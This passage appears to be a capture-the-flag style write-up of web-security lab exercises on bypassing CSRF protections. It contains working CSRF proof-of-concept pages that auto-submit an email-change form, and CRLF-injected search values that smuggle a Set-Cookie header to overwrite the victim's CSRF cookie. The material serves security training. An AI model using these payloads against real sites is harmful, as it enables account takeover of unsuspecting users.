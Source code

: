 To craft the final payload we need to do the CSRF payload with Burp but instead of doing a form submission right away we need the victim to visit the search function to get my csrfKey set first. To do that we have to modify the script block where the autosubmit occurs to instead use an img tag to load that request then submit. 
That process starts with the change email CSRF POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0600e0042cd70a8165163700840060.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;foo&#46;com" />
      <input type="hidden" name="csrf" value="csCJI1Bjc7xdVDWwpIqnWIQiXXq9QUli" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Then we replace the script block with the img:
```
<img src="0a0600e0042cd70a8165163700840060.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=ngSY57IjtDNaUYgrZTbuOdRW3SifBlJ6%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
Final payload looks like this:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6400e4044c87d080903ae100360005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="TYqb72ylgz22MgKOVcX8lgsABArV7KyH" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a6400e4044c87d080903ae100360005.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=csaHzzNZDAVkXO5moGhEEt7qEZ7o8T5B%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

# CSRF where token is duplicated in cookie
Change victim's email. 
## Observations 
- Tries to use a double submit CSRF protection method but its insecure. 
- Similarly to others, the search function has no CSRF protections on it and the search term is set as a cookie value, meaning with a new line we can set a cookie. 
- The cookie for the csrf is the same value as the actual csrf token so we can effectively just overwrite the victim's csrf because there isn't any actual validation. 
- Crafting the payload:
```
test%0d%0aSet-Cookie:%20csrf=YOUR-KEY%3b%20SameSite=None
```
Grabbed a search in the proxy interceptor and set that value in the search param (it will double URL encode if you do it in the UI). This did override/set the cookie for the csrf. 
Request:
```
GET /?search=test%0d%0aSet-Cookie%3A+csrf%3DYOUR-KEY%3B+SameSite%3DNone HTTP/2
Host: 0ada00610488d3db81eaa3a600d70061.web-security-academy.net
```